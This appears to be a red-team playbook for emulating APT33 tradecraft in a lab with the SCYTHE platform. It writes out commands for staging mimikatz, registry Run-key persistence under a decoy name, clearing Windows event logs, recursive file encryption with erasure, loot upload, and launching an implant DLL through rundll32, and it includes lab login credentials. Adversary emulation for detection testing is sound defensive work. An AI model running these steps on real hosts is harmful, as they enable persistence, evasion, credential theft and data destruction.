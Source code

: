 ```yaml
---

# ⚔️ Prox Offensive | APT33 Custom SCYTHE Campaign Playbook

## 🎯 Objective

Simulate APT33 adversary behavior in a lab environment using SCYTHE modules. This playbook aligns real-world TTPs with emulation logic and syntax for operational use.

---
```


## 🔧 Required SCYTHE Modules

| Module       | Purpose                                            |
| ------------ | -------------------------------------------------- |
| `run`        | Execute local commands (e.g., systeminfo, reg add) |
| `upsh`       | Run PowerShell scripts or commands                 |
| `downloader` | Transfer payloads from VFS to target               |
| `uploader`   | Upload loot from target to SCYTHE                  |
| `crypt`      | Emulate ransomware behavior via file encryption    |
| `file`       | Generate dummy files for exfiltration/encryption   |

---

## 🧱 Campaign Creation Steps

### 1. **Login to SCYTHE Platform**

- URL: `https://scythe.local/login`
- Username: `unicorn`
- Password: `unicorn111!!!`

### 2. **Create New Campaign**

- Campaign Name: `APT33_Emulation_P1`
- Communication Module: `HTTPS`

### 3. **Load Modules**

- Add the following modules: `run`, `upsh`, `downloader`, `uploader`, `crypt`, `file`

### 4. **Add Emulation Procedures**

#### 📥 Downloader - Stage Tooling

```bash
downloader --src VFS:/shared/threats/APT33/mimikatz.exe --dest %TEMP%\mimikatz.exe
```

#### 🚀 Execute Recon via PowerShell

```bash
upsh --cmd (Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct)
```

#### 🧠 System & Domain Discovery

```bash
run powershell -c "systeminfo"
upsh --cmd (net user /domain)
```

#### 🧬 Registry Persistence

```bash
run reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SharePoint" /t REG_SZ /d "%APPDATA%\SharePoint.exe" /f
```

#### 🔐 Clear Event Logs

```bash
run wevtutil cl System
```

#### 🗃 Dummy File Generation

```bash
file --create --path "%USERPROFILE%\Documents\topsecret.txt" --size 10MB --random
```

#### 🔒 Encrypt Dummy Data

```bash
crypt --target %USERPROFILE%\Documents --password "Unicorn1337!" --encrypt --erase --recurse
```

#### 📤 Simulate Exfiltration

```bash
uploader --remotepath "%USERPROFILE%\Documents\topsecret.txt"
```

### 5. **Save as Threat**

- Name: `APT33_Procedures_v1`
- Description: `Emulation of observed APT33 TTPs`

### 6. **Download Implant**

- Architecture: `x64`
- File Type: `DLL`
- Entry Point: `DllRegisterServer`

### 7. **Deploy Implant to Host**

On `Unicorn-Host`, rename downloaded DLL to `dar.dll` and execute:

```bash
C:\Windows\System32\rundll32.exe dar.dll,DllRegisterServer
```

### 8. **Verify Callback**

- In SCYTHE, go to Campaign view > check-in from Unicorn-Host
- Review module outputs, timestamps, and response data

### 9. **Shutdown C2 Post-Test**

```bash
controller --shutdown
```

---

## ✅ Success Criteria

- Each procedure executes without error
- SCYTHE modules report successful completion
- Splunk (or other SIEM) shows corresponding logs/detections
- All modules mapped to MITRE ATT&CK for reporting

---

## 📘 Notes

- Set beacon heartbeat to 10 seconds (default) or customize for stealth
- Use `file` module to avoid real damage during encryption steps
- Replace real tools (e.g., mimikatz) with harmless placeholders for practice

---

**Prox Offensive | Emulate. Detect. Evolve.**

